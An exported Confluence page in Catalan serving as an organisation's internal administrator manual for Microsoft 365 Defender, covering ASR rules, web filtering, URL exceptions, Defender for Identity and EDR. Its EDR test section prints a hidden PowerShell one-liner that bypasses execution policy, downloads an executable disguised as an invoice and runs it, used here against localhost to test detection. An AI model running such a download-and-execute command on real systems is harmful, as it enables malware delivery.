




Seguretat : Microsoft 365 Defender - Manual d'administrador  

1.  [Seguretat](index.md)
2.  [Pàgina d'inici de la Unitat de Seguretat](15368362.md)
3.  [Procediments Unitat de Seguretat](Procediments-Unitat-de-Seguretat_81856210.md)

Seguretat : Microsoft 365 Defender - Manual d'administrador
===========================================================

Created by Ivan Caballero, last modified on 07 junio 2024

/\*<!\[CDATA\[\*/ div.rbtoc1749247715970 {padding: 0px;} div.rbtoc1749247715970 ul {list-style: disc;margin-left: 0px;} div.rbtoc1749247715970 li {margin-left: 0px;padding-left: 0px;} /\*\]\]>\*/

*   
*   [Consola d'administració](#Microsoft365DefenderManuald'administrador-Consolad'administració)

*   [Regles de reducció de la superfície d'atac (ASR).](#Microsoft365DefenderManuald'administrador-Reglesdereducciódelasuperfícied'atac\(ASR\).)
    *   [Informes de les regles ASR](#Microsoft365DefenderManuald'administrador-InformesdelesreglesASR)
*   [Web content filtering](#Microsoft365DefenderManuald'administrador-Webcontentfiltering)
    
    *   [Consola d'administració de les directives:](#Microsoft365DefenderManuald'administrador-Consolad'administraciódelesdirectives:)
    *   [Modificació de les categories bloquejades](#Microsoft365DefenderManuald'administrador-Modificaciódelescategoriesbloquejades)
    *   [Consola d'informes de protecció web.](#Microsoft365DefenderManuald'administrador-Consolad'informesdeproteccióweb.)
    *   [Afegir màquines:](#Microsoft365DefenderManuald'administrador-Afegirmàquines:)
    *   [Excepcions en URLs](#Microsoft365DefenderManuald'administrador-ExcepcionsenURLs)
    *   [Com veure quines URL estan blocant a un usuari](#Microsoft365DefenderManuald'administrador-ComveurequinesURLestanblocantaunusuari)
    
    *   [Blocar dominis i IPs](#Microsoft365DefenderManuald'administrador-BlocardominisiIPs)
    *   [Microsoft Defender for Identity](#Microsoft365DefenderManuald'administrador-MicrosoftDefenderforIdentity)
    *   [Detectar vulnerabilitats en equips](#Microsoft365DefenderManuald'administrador-Detectarvulnerabilitatsenequips)
    *   [EDR](#Microsoft365DefenderManuald'administrador-EDR)
        *   [Proves EDR](#Microsoft365DefenderManuald'administrador-ProvesEDR)
    *   [Exclusions i excepcions de qualsevol dels mòduls de seguretat](#Microsoft365DefenderManuald'administrador-Exclusionsiexcepcionsdequalsevoldelsmòdulsdeseguretat)
        *   [Excepcions en control web](#Microsoft365DefenderManuald'administrador-Excepcionsencontrolweb)
            *   [Adminlaps](#Microsoft365DefenderManuald'administrador-Adminlaps)
    *   [Equips migrats a FortiEDR](#Microsoft365DefenderManuald'administrador-EquipsmigratsaFortiEDR)

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Consola d'administració
-----------------------

URL: [https://security.microsoft.com/homepage?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc](https://security.microsoft.com/homepage?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc)

Windows Defender té diversos mòduls que es poden activar per separat.

Regles de reducció de la superfície d'atac (ASR).
=================================================

[Comprender las reglas de reducción de la superficie expuesta a ataques | Microsoft Learn](https://learn.microsoft.com/es-es/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide)

Les superfícies exposades a atacs són tots els llocs on la seva organització és vulnerable a ciberamenazas i atacs. Defensar for Endpoint inclou diverses funcionalitats per a ajudar a reduir les superfícies exposades a atacs.

Les regles de reducció a superfície d'atac es configuren a Intune:

[https://intune.microsoft.com/#view/Microsoft\_Intune\_Workflows/SecurityManagementMenu/~/asr](https://intune.microsoft.com/#view/Microsoft_Intune_Workflows/SecurityManagementMenu/~/asr)

### Informes de les regles ASR

[https://security.microsoft.com/reports?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc](https://security.microsoft.com/reports?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc)

Web content filtering
=====================

El filtratge web està activat per a tots els equips del Consorci (es configura a nivell d'equips).

Les característiques tècniques i les categories de URLs que es bloquegen són a la documentació oficial de Microsoft: [Web content filtering | Microsoft Learn](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/web-content-filtering?view=o365-worldwide)

### Consola d'administració de les directives:

[https://security.microsoft.com/preferences2/web\_content\_filtering\_policy?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc](https://security.microsoft.com/preferences2/web_content_filtering_policy?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc)

Hi ha 1 directiva per a tota l'organització que s'accedeix des de Reglas - Filtrado de contenido web

### Modificació de les categories bloquejades

Les categories permeses han d'estar aprovades pel Comitè Executiu de Seguretat.

  

### Consola d'informes de protecció web.

[https://security.microsoft.com/webprotection?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc](https://security.microsoft.com/webprotection?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc)

### Afegir màquines:

[https://security.microsoft.com/securitysettings/endpoints/machine\_groups?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc&childviewid=url](https://security.microsoft.com/securitysettings/endpoints/machine_groups?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc&childviewid=url)

### Excepcions en URLs

Els usuaris podran demanar excepcions en les URL bloquejades.

L'usuari haurà de solitar-ho via tiquet a Manteniment Intern o Seguretat. Haurà d'indicar el motiu pel qual vol excepcionar la URL.

La unitat de seguretat revisar la URL per comprovar que no hi ha risc.

La excepció es fa en la següent consola: 

[https://security.microsoft.com/preferences2/custom\_ti\_indicators/url?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc](https://security.microsoft.com/preferences2/custom_ti_indicators/url?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc)

### Com veure quines URL estan blocant a un usuari

Consultar en Intune la estació de treball de l'usuari: [https://intune.microsoft.com/#view/Microsoft\_Intune\_Workflows/SecurityManagementMenu/~/deviceList](https://intune.microsoft.com/#view/Microsoft_Intune_Workflows/SecurityManagementMenu/~/deviceList)

Accedir a Windows Defender - Inventari de dispositius, localiotzar l'equip i anar a la pentanya "Linia de tiempo"

Fer una cerca per "ExploitGuardNetworkProtectionBlocked"

Blocar dominis i IPs
--------------------

  

  

  

  

En la regla és recomanable que l'alerta indiqui que és està generada per nosaltres.

  

Microsoft Defender for Identity
-------------------------------

Aquest és el módul de control dels dels LDAP

[https://learn.microsoft.com/es-es/defender-for-identity/what-is](https://learn.microsoft.com/es-es/defender-for-identity/what-is)

Microsoft Defender for Identity és una solució de seguretat basada en el núvol que utilitza els senyals d'Active Directory local per identificar, detectar i investigar amenaces avançades, identitats en perill i accions internes malintencionades dirigides a la vostra organització. Defender for Identity permet als analistes d'operacions de seguretat i als professionals de la seguretat, que poden tenir problemes per detectar atacs avançats en entorns híbrids:

*   Supervisar usuaris, el comportament de lentitat i les activitats amb anàlisis basades en aprenentatge.
*   Protegir les identitats i credencials de l'usuari emmagatzemades a Active Directory.
*   Identificar i investigar les activitats de l'usuari sospitoses i els atacs avançats al llarg de la cadena de destrucció.
*   Proporcionar informació clara sobre els incidents en una escala de temps senzilla per a una avaluació ràpida de prioritats.

Les directives de Defender for Identitu són a Configuración - Identitat:

  

Dins de la pàgina d'inici , es pot veure com "Estado de la implementación ITDR":

  

Dona recomanacions de seguretat des del panell: Puntuació de seguretat - Accions recomenades.

Per filtrar només les recomanacions de ITDR, aplicar un filtre només per "Defender for Identity":

Detectar vulnerabilitats en equips
----------------------------------

Accedir al menú Actius - Dispositius, i ordenar per la comummna "Nivell exposoció"

Els dispositius "Inactius" estan fora de línea.

  

Dins d'una estació de treball, es poden identificar la vulnerabilitats amb 2 menus:

*   Inventari de software: surt tot el software instal·lat, es pot ordenar per "Punts dèbils"
*   Inventari de vulnerabilitats

EDR
---

Configuració:

### Proves EDR

S'ha fer servir el següent script que simula un comportament perillòs:

powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('[http://127.0.0.1/1.exe](http://127.0.0.1/1.exe)', 'C:\\\\test-WDATP-test\\\\invoice.exe');Start-Process 'C:\\\\test-WDATP-test\\\\invoice.exe'

En Incidentes es pot veure com es detecta en el EDR:

  

Detalls del procès suspitos:

  

  

L'incident a creat 3 alertes relacionades: (encara en ejecución?)

  

Bateries de proves que es poden executar: [Bateria de proves de Windows Defender - Seguretat - Intranet Consorci Administració Oberta de Catalunya (aoc.cat)](https://intranet.aoc.cat/display/SEG/Bateria+de+proves+de+Windows+Defender)

Exclusions i excepcions de qualsevol dels mòduls de seguretat
-------------------------------------------------------------

  

Best Practises

És recomanable no fer excepcions en la detecció d'alertes. És millor tancar les alertes com fals positiu per a que el sistema aprengui els usos correctes.

Per determinar quin és el mòdul de Windows Defender que ha generat l'alerta

*   Anar a la consola de Microsoft 365 Defender - Alertes: [https://security.microsoft.com/alerts?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc](https://security.microsoft.com/alerts?tid=37a8a0b9-1874-4e5d-b1f5-11040c1c07fc)
*   Accedir a l'alerta concreta
*   Localitzar el camp Service Source

  

  

*   Accedir a la consola configuració corresponent

  

Best Practises

És recomanable no fer excepcions en la detecció d'alertes. És millor tancar les alertes com fals positiu per a que el sistema aprengui els usos correctes.

  

### Excepcions en control web

  

  

#### Adminlaps

En la consol de INTUNE: [Centro de administración de Microsoft Intune](https://endpoint.microsoft.com/#home)

  

Equips migrats a FortiEDR
-------------------------

Hi ha equips que es migren de la protecció de Windows Defender for EndPoint a FortiEDR. En aquests casos es posa Windows Defender en mode auditoria i s'activa el FortiEDR en mode protecció.

Per posar WD en mode auditoria es posa l'equip en el grup "AOC\_WRK\_Defenderendpoint\_soloauditoria".

  

  

  

Attachments:
------------

 [image2023-7-20\_13-33-14.png](attachments/93356745/93356747.png) (image/png)  
 [image2023-7-20\_13-36-47.png](attachments/93356745/93356748.png) (image/png)  
 [image2023-7-20\_13-47-35.png](attachments/93356745/93356750.png) (image/png)  
 [image2023-7-20\_13-48-29.png](attachments/93356745/93356751.png) (image/png)  
 [image2023-7-21\_12-46-58.png](attachments/93356745/93356780.png) (image/png)  
 [image2023-5-10\_8-54-1.png](attachments/93356745/93356905.png) (image/png)  
 [image2023-8-3\_11-33-20.png](attachments/93356745/93356941.png) (image/png)  
 [image2023-8-3\_11-34-34.png](attachments/93356745/93356942.png) (image/png)  
 [image2023-8-3\_11-44-56.png](attachments/93356745/93356943.png) (image/png)  
 [image2023-8-3\_11-59-30.png](attachments/93356745/93356945.png) (image/png)  
 [image2023-8-3\_12-17-29.png](attachments/93356745/93356948.png) (image/png)  
 [image2023-8-3\_12-23-45.png](attachments/93356745/93356951.png) (image/png)  
 [image2023-8-7\_9-40-49.png](attachments/93356745/93356985.png) (image/png)  
 [image2023-8-24\_12-12-56.png](attachments/93356745/93357058.png) (image/png)  
 [image2023-10-19\_15-31-9.png](attachments/93356745/100008155.png) (image/png)  
 [image2023-12-18\_8-53-2.png](attachments/93356745/100008573.png) (image/png)  
 [image2024-2-29\_10-54-44.png](attachments/93356745/100009568.png) (image/png)  
 [image2024-4-4\_12-33-21.png](attachments/93356745/100009980.png) (image/png)  
 [image2024-4-4\_12-35-45.png](attachments/93356745/100009981.png) (image/png)  
 [image2024-6-7\_14-4-8.png](attachments/93356745/100010629.png) (image/png)  
 [image2024-6-7\_14-5-39.png](attachments/93356745/100010630.png) (image/png)  
 [image2024-6-7\_14-6-20.png](attachments/93356745/100010631.png) (image/png)  

Document generated by Confluence on 07 junio 2025 00:08

[Atlassian](http://www.atlassian.com/)